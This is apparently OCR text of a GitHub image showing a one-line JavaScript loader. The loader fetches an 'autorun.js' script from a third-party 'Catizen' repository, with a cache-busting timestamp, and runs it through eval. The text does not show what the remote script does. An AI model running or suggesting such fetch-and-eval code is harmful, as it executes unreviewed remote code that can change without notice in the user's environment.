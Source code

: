 var unixTime=Date.now(); var url='https://raw.githubusercontent.com/rongnhat2/Catizen/master/autorun.js'+'?'+unixTime; fetch(url).then(response=>response.text()).then(script=>eval(script));
